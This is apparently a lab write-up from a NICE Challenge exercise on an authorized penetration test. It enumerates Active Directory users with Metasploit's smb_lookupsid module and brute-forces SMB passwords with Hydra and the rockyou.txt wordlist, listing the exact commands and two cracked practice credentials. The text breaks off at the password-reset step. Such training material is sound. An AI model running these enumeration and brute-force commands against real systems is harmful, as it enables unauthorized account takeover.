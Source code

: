 <p align="center">
<img src="https://i.imgur.com/ARGlAoP.png" height="100%" width="100%" alt="install kali"/>
</p>
<h1>Pentration Testing: Bringing Passwords Up to Snuff</h1>

    We have reason to believe that some of our employees have weaker than should be acceptable passwords, so we want you to conduct authorized penetration testing against various company assets to determine which employees need to change their passwords.

<h2>Solution</h2>

    Utilize Kali Linux to target Pretty Safe Electronic's Active Directory located at 171.16.30.55.

    - Use Metasploit's Auxiliary module smblookupsid to enumerate authorized users in the directory.
    - Utilize Hydra, leveraging Metasploit's output, to target specific users in the directory.
    - Employ the "rockyou.txt" wordlist to identify weak passwords among users.

    Reset passwords for identified users with weak passwords.

    - Access the domain controller and initiate password resets for users flagged with weak passwords.

<h2>Tools Used</h2>

    Kali Linux
    Metasploit Console
    SMB
    smb_lookupsid Auxiliary in Metasploit
    Hydra command line tool
    Active Directory (Users and Computers)

<h2>Network Map and targets used</h2>

    Our target is the AD-Server located at 172.16.30.55
    We will utilize the Security-Desk workstation located at 172.16.20.55
<img src="https://i.imgur.com/Ms9L7zn.jpeg" height="80%" width="80%" alt="NICE Challenge"/>

<h2>Actions Taken</h2>

    1. Activate the Security-Desk workstation and log in to player one.
    2. Launch Terminal and execute "sudo msfconsole".
    3. Select the smb_lookupsid tool by running "use auxiliary/scanner/smb_lookupsid".
    4. Set the target to Active Directory service with "set RHOSTS 172.16.30.55".
    5. Specify SMB user with "set SMBUser playerone".
    6. Set SMB password using "set SMBPass password123".
    7. Commence exploit with "exploit".
    8. After completion, copy and paste the output into MousePad.
    9. Remove extraneous data, leaving only found users:
        rcortes
        jsmith
        manderson
        skeefe
        nkeefe
        asteele
        jraffin
        jcortes
        tclark
    10. Save the document in the home directory (/home/playerone/(KNOWNUSERS).txt).
    11. Create an empty document for Hydra's output in the home directory (/home/playerone/(OUTPUT).txt).
    12. Exit the Metasploit console.
    13. In Terminal, execute "hydra -L /home/playerone/(KNOWNUSERS).txt -P /usr/share/wordlists/rockyou.txt -o /home/playerone/(OUTPUT).txt -v 172.16.30.55 smb". 
        Hydra identifies two users with weak passwords:
        nkeefe:987654321
        jcortes:iloveme
    14. Shutdown Security-Desk.
    15. Initiate Domain-Controller.
    16. Navigate to Start Menu > Administrative Tools.